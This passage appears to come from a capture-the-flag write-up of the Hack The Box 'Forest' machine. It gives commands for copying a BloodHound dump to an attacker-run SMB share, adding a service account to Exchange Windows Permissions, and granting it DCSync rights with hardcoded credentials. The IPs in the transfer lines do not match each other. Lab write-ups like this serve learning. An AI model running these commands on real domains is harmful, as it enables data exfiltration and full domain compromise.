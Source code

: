 * Transferring output to kali:

```bash
## Kali:
    impacket-smbserver samba . -username kali -password kalii -smb2support
## Target:
    net use \\192.168.49.106\samba kalii /user:kali
    copy 20221018071247_BloodHound.zip \\10.10.14.2\\samba
```

* Analyzing in BloodHound:

We have the road to success in the section `Find Shortest Paths to Domain Admins`

![Untitled](https://0xetern4lw0lf.github.io/assets/img/HTB/HTB-Forest/Untitled%202.png)


## Privilege Escalation (svc-alfresco → Administrator )

### Entering the Exchange Windows Permissions Group

Let's to insert the **svc-alfresco** user to **Exchange Windows Permissions:** group.

```powershell
net group "Exchange Windows Permissions" svc-alfresco /add /domain
```

or we can to use this command:

```powershell
$SecPassword = ConvertTo-SecureString 'Password123!' -AsPlainText -Force
$Cred = New-Object System.Management.Automation.PSCredential('htb\svc-alfresco', $SecPassword)
Add-DomainGroupMember -Identity 'Exchange Windows Permissions' -Members 'svc-alfresco' -Credential $Cred
```

We verify that the user was insert with success.

```powershell
net group "Exchange Windows Permissions"
```
    
```
Members

-------------------------------------------------------------------------------
svc-alfresco             
The command completed successfully.
```
    

However, after a while the user is deleted from the group.

So we'll do a command just add the user to the group and then grant DCSync privileges.

```powershell
Add-DomainGroupMember -Identity 'Exchange Windows Permissions' -Members svc-alfresco; 
$username = "htb\svc-alfresco"; 
$password = "s3rvice"; 
$secstr = New-Object -TypeName System.Security.SecureString; 
$password.ToCharArray() | ForEach-Object {$secstr.AppendChar($_)}; 
$cred = new-object -typename System.Management.Automation.PSCredential -argumentlist $username, $secstr; 
Add-DomainObjectAcl -Credential $Cred -PrincipalIdentity 'svc-alfresco' -TargetIdentity 'HTB.LOCAL\Domain Admins' -Rights DCSync
```
